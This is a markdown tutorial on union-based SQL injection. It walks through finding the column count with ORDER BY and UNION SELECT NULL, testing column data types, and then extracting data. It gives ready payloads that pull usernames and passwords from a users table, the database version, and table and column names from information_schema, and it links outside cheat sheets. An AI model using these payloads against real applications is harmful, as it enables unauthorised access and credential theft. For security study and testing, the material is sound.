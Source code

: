 In a **Union-Based SQL Injection**, the attacker leverages the `UNION` SQL operator to combine results from the original query with results from their injected query. 

When an attacker uses Union-Based SQL Injection, they attempt to combine the results of the original query with their own injected query. However, for this to work properly, certain conditions must be met:

- **Number of Columns**: The original query and the injected query must have the same number of columns.
- **Compatible Data Types**: The data types of the columns in both queries must be compatible.


---
#### Usefuel Cheat Sheets
It is very important to consult these resources to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 
- [Oracle SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
- [PostgreSQL SQL Injection](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
---

## 1. Determining the Number of Columns

To carry out a successful `UNION` attack, first we need to know the number of columns in the original query. This is crucial because the `UNION` operator requires both queries to have the **same number of columns** and **compatible data types** to avoid errors. There are two main methods for identifying this:

#### Using ORDER BY

By incrementally increasing the column number in `ORDER BY` clauses, we can find the number of columns by identifying when an error occurs. For example:

```sql
' ORDER BY 1 -- (no error, at least 1 column)

' ORDER BY 2 -- (no error, at least 2 columns)

' ORDER BY N -- (error 500, N exceeds the column count)
```
> Note the space after the double dash

Once a certain number causes an error, we can deduce that the original query has fewer columns than this value.

#### Using UNION SELECT NULL

Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:

```sql
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)

' UNION SELECT NULL, NULL, NULL -- (error, meaning only 2 columns exist)
```
> Note the space after the double dash


Once the correct number of columns is determined, the information extraction can be executed.

## 2. Identifying Data Types for Columns

After determining the number of columns, we need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using `UNION SELECT` injections to test for data types one by one.

#### Methods for Testing Data Types:

- **String Data Type:** Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.

- **Numeric Data Type:** Use numbers in `NULL` positions to determine columns that accept integers.

- **Date Data Type:** Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.


For example:

```sql
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)

' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

> **Important Oracle Note**:
 On **Oracle** databases, every **SELECT** statement must specify a table to select from. If your **UNION SELECT** attack does not query from a table, you will still need to include the **`FROM`** keyword followed by a valid table name. A built-in table on Oracle called `dual` can be used for this purpose: `' UNION SELECT 'abc' FROM dual --`  

## 3. Extracting Sensitive Data

Once we know the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:

```sql
' UNION SELECT NULL, username, password FROM users --
```

In this example, the `username` and `password` columns are retrieved from the `users` table.

#### Additional Information Extraction

- **Obtain the current database name:**

```sql
' UNION SELECT NULL, database(), NULL -- 
```

- **Check the database version:**

```sql
' UNION SELECT NULL, version(), NULL -- 
```

- **List available tables in information_schema.tables:**
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables -- 
```

- **List column names from a specific table:**

```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users' -- 
```

